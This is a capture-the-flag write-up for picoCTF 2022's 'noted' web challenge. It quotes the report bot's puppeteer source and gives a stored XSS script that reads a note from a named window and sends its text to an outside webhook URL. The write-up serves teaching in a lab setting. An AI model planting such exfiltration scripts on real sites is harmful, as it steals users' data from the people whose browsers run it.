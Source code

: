 # Overview
`Hard` `Web Exploitation` `picoCTF 2022`

# Description
I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?  
Note that the headless browser used for the "report" feature does not have access to the internet.  
Create an account at this [website](http://saturn.picoctf.net:64863/).
Source code: [noted.tar.gz](https://artifacts.picoctf.net/c/184/noted.tar.gz)

# Hints
- Are you *sure* I followed all the best practices?
- There's more than just HTTP(S)!
- Things that require user interaction normally in Chrome might not require it in Headless Chrome.

# Solution
I had to look around this website for a while before trying to piece things together

First thing I discovered was the ability to inject HTML code while creating new notes:

<kbd>![Screenshot](https://github.com/user-attachments/assets/ad43acff-e6a6-43dc-9e18-590cd2ca90db)</kbd>
<kbd>![Screenshot](https://github.com/user-attachments/assets/fe2a8bd6-0a9e-4567-afad-29b4e8bbda33)</kbd>

Next I downloaded the source code to see what else I could find in the backend. `web.js` there are the endpoints and server running interally on `localhost:8080`
More interestingly, `report.js` handles the `/report` endpoint. The description mentions that the report function does not have access to the internet...let's look at its code:

```js
async function run(url) {
	let browser;

	try {
		module.exports.open = true;
		browser = await puppeteer.launch({
			headless: true,
			pipe: true,
			args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
			slowMo: 10
		});

		let page = (await browser.pages())[0]

		await page.goto('http://0.0.0.0:8080/register');
		await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
		await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.flag ?? 'ctf{flag}');

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('about:blank')
		await page.goto(url);
		await page.waitForTimeout(7500);

		await browser.close();
	} catch(e) {
		console.error(e);
		try { await browser.close() } catch(e) {}
	}

	module.exports.open = false;
}
```

A few important things to note here:
- The report endpoint is a puppeteer bot  
- It is a headless, non-sandboxed chromium browser (infamous for its lack of security)  
- The bot creates a new account with random credentials  
- Creates a new note with content as `process.env.flag` (the flag, of course)  
- The bot then opens the `url` we provide on the `/reports` page

I needed to create a plan for how to get the note created that contains the flag. I found a solution online using what's called a webhook

> A _**webhook**_ is a lightweight, event-driven communication that automatically sends data between applications via HTTP

The plan consisted of two things:
1. Saturn Servers
  A. Create a test account
  B. Plant a XSS (Cross-Site Script) script that sends the content of a "pwn" window to a webhook
2. Puppeteer Bot
  A. Open a new window named "pwn" which can be called through js
  B. Login to test account
  C. Access my notes page to run the script I planted

Before finishing the script, I need to create a webhook. I used a webhook.site to create a free webhook.  
Once the webhook URL is created, enter that URL into the script

The script that I will plant is this:

```js
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://hooks.zapier.com/hooks/catch/21757851/2wwet5d/?' + window.open('', 'pwn').document.body.textContent
</script>
``` 

# Flag
``
